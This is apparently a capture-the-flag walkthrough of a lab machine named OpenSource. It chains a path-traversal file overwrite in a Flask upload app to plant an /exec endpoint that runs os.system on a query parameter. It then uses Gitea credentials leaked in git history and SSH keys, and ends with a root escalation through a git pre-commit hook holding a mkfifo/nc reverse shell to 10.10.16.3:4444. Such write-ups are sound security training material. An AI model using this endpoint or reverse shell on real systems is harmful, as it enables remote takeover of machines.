# OpenSource

## Gaining Access

Nmap scan results:



Take note of port 3000, it will be important later!

### Overwrite for RCE

This website was a file sharing application where we could upload files:



Interestingly, we were allowed to download the entire repository here:





The `source.zip` file also contained a `.git` repo that we could analyse later.

Since this looks like a Flask application, we can check the `views.py` file to view the endpoints that are accessible.

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

So this program would get a file via POST, and then upload it to the `uploads/` directory. The problem is, the `file_name` parameter is unsanitised, meaning that we could potentially use this to **overwrite the existing files**. With this knowledge, what we can do is add some more code to this views.py.

In this case, we can add an `/exec` endpoint who's function is to execute commands we send:

```python
@app.route('/exec')
def runcmd():
    return os.system(request.args.get('cmd'))
```

Then, we can attempt to upload this file onto the server. We would need to intercept the response and change the file name to `../../app/app/views.py`. Since the filename is simply appended at the back of `uploads/`, this would cause the new file to be put at `uploads/../../app/views.py`. The directories are based on the source code I downloaded.

When we intercept and change the name of the file, we would be able to access our new endpoint. We can confirm RCE through a simple ping command:





Then, we can gain a reverse shell via the `mkfifo` command into a Docker Container.



## Docker Escape

Within this container, we can see other foreign addresses that are around:



172.17.0.1 was another address that was present on the host.

### .git Analysis

I couldn't find much from the container, so I went ahead with enumerating the git repository in hopes of finding some passwords when scanning through the logs.

By using `git log`, I was able to find some credentials for anotehr application elsewhere.



Earlier, we found port 3000 to be inaccessible from our host. From the docker however, it could be accessed. I downloaded `chisel` onto the container and forwarded port 3000.

### Gitea

When this port was accessed, it was a Gitea instance:



Signing into Gitea with the credentials we found earlier works.



Notice that there's a home-backup repo, and within it are the user's SSH keys:



We can then the SSH keys to gain access to the `dev01` user.

## Privilege Escalation

LinPEAS didn't reveal a lot to me, so I opted for `pspy64` to view the processes.



I saw this process run by root:



Every minute or so, it seems that this git repository is being updated on the Gitea instance. Based on GTFOBins, **git hooks** can be abused here to execute any script we want.

### Git Hooks Abuse

To abuse this, first we need to create a quick script for a reverse shell.

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.10.16.3 4444 > /tmp/f
```

Afterwards, we just need to name this script `pre-commit` and place it within the `~/.git/hooks` folder.



After a few minutes, a listener port should catch a shell:


